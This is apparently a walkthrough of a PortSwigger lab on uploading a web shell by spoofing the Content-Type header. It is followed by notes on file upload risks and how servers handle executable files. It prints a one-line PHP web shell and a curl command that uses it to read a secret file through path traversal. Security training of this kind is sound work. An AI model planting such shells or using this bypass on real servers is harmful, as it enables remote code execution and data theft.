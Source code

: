 # 1f2 - Web shell upload via Content-Type restriction bypass \[Portswigger Lab]

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So upon logging in my account, I can see the avatar upload field.

<figure><img src="/.gitbook/assets/Pasted image 20240719144326.png" alt=""><figcaption><p>upload field for avatar</p></figcaption></figure>

Testing this functionality by uploading an empty `test.txt` file gives me an error

`Sorry, file type text/plain is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

The next thing I tried was to upload the same file but modify the HTTP request using burpsuite and change `Content-Type: Text/Plain` to `Content-Type: image/jpeg`. This bypassed a defense mechanism and as a result it let me upload a text file

<figure><img src="/.gitbook/assets/Pasted image 20240719145007.png" alt=""><figcaption><p>demonstration of tricking web application into uploading different type of file</p></figcaption></figure>

Now it's time to upload a web shell `mal.php` with the following contents:

`<?php echo system($_GET['command']); ?>`

<figure><img src="/.gitbook/assets/Pasted image 20240719145330.png" alt=""><figcaption><p>uploaded malware of type php</p></figcaption></figure>

Now, since I know that this `mal.php` is uploaded in `/files/avatars/mal.php`, I can call it using CURL.

And we got the secret

```
curl -X GET "https://0a2200b703596e51800635e70004004c.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

7nJBS****************************7nJBS****************************
```

remember that calls form curl like this repeats the response twice, so I had to remove the double of this output.

The secret contents: `7nJB****************************`

***

**Impact of FUVs generally depend on two key factors**:

* Which aspect of the file the website fails to validate properly, whether its the size, type, contents...
* what restrictions are imposed once file is uploaded

In the worst case scenario, the file is not validated at all and the server configuration allows certain types to run as code - potentially giving an attacker web shell and full access to a webserver.

In case filename isn't validated properly, an attacker might just replace original file with a malicious one.

Failing to validate file size might also enable an attacker to perform a DoS.

_**How Web servers handle static file requests?**_

Generally, static files on a website can be mapped 1:1 with a filesystem hierarchy.

Nowadays modern applications are dynamic and hence complex. Path of a request may not necessarily represent a filesystem entirely. Nowadays, web servers still deal with static requests for some static files like stylesheets, images etc.

The process for handling such files is historically largely the same. - The server parses the path in the request to identify the file extension. Then uses this information to determine the filetype by comparing it to preconfigured mapping between extensions and MIME types.

* if the file is non-executable like HTML file, it may just send the file in the HTTP response
* if the file is executable like PHP or PYTHON and the server is configured to execute these files, it will assign variables based on the headers and parameters in the HTTP request before executing it. The result may be passed on to HTTP response after.
* if the file is executable, but the server is not configured to run them, it will generally respond with an error or in some cases, just send back the plain text representation of the code to the client. such misconfigurations may lead to code and sensitive data leakage. The `Content-Type` response header may provide clues as to what kind of file the server thinks it has served.

As a precaution, servers generally only run scripts whose filetypes have been explicitly defined to execute. Otherwise they may return an error message or plaintext of source code. In such cases, it might only be possible to leak the source but won't be able to deploy a webshell.

This kind of configuration will have a strict policy for directories where user can upload files than other locations on the filesystem that are assumed to be out of reach from users. If you can find a directory where user-uploaded files are not supposed to be, the code might execute.

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.
